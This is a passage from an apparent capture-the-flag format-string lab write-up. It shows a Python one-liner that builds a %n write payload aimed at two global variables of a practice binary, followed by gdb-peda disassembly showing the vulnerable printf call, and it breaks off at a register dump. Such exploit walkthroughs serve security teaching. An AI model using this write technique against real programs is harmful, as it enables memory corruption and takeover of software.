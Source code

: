 ```
$	python -c 'print "\x48\xa0\x04\x08" + "%44257x%6$" + "\x4c\xa0\x04\x08" + "%8$n"' > payload
$	gdb ./f3
```

One wall of text later...

```
gdb-peda$ disas fun0
Dump of assembler code for function fun0:
   0x080484eb <+0>:	push   ebp
   0x080484ec <+1>:	mov    ebp,esp
   0x080484ee <+3>:	sub    esp,0x78
   0x080484f1 <+6>:	mov    eax,gs:0x14
   0x080484f7 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484fa <+15>:	xor    eax,eax
   0x080484fc <+17>:	mov    eax,ds:0x804a040
   0x08048501 <+22>:	sub    esp,0x4
   0x08048504 <+25>:	push   eax
   0x08048505 <+26>:	push   0x64
   0x08048507 <+28>:	lea    eax,[ebp-0x70]
   0x0804850a <+31>:	push   eax
   0x0804850b <+32>:	call   0x80483a0 <fgets@plt>
   0x08048510 <+37>:	add    esp,0x10
   0x08048513 <+40>:	sub    esp,0xc
   0x08048516 <+43>:	lea    eax,[ebp-0x70]
   0x08048519 <+46>:	push   eax
   0x0804851a <+47>:	call   0x8048390 <printf@plt>
   0x0804851f <+52>:	add    esp,0x10
   0x08048522 <+55>:	mov    eax,ds:0x804a048
   0x08048527 <+60>:	cmp    eax,0xace5
   0x0804852c <+65>:	jne    0x804854a <fun0+95>
   0x0804852e <+67>:	mov    eax,ds:0x804a04c
   0x08048533 <+72>:	cmp    eax,0xfacade
   0x08048538 <+77>:	jne    0x804854a <fun0+95>
   0x0804853a <+79>:	sub    esp,0xc
   0x0804853d <+82>:	push   0x8048630
   0x08048542 <+87>:	call   0x80483c0 <puts@plt>
   0x08048547 <+92>:	add    esp,0x10
   0x0804854a <+95>:	mov    eax,ds:0x804a048
   0x0804854f <+100>:	sub    esp,0x8
   0x08048552 <+103>:	push   eax
   0x08048553 <+104>:	push   0x804869d
   0x08048558 <+109>:	call   0x8048390 <printf@plt>
   0x0804855d <+114>:	add    esp,0x10
   0x08048560 <+117>:	mov    eax,ds:0x804a04c
   0x08048565 <+122>:	sub    esp,0x8
   0x08048568 <+125>:	push   eax
   0x08048569 <+126>:	push   0x80486b9
   0x0804856e <+131>:	call   0x8048390 <printf@plt>
   0x08048573 <+136>:	add    esp,0x10
   0x08048576 <+139>:	nop
   0x08048577 <+140>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0804857a <+143>:	xor    eax,DWORD PTR gs:0x14
   0x08048581 <+150>:	je     0x8048588 <fun0+157>
   0x08048583 <+152>:	call   0x80483b0 <__stack_chk_fail@plt>
   0x08048588 <+157>:	leave  
   0x08048589 <+158>:	ret    
End of assembler dump.
gdb-peda$ b *fun0+37
Breakpoint 1 at 0x8048510
gdb-peda$ r < payload
Starting program: /Hackery/escape/fmt_str/f3/f3 < payload

 [----------------------------------registers-----------------------------------]
```
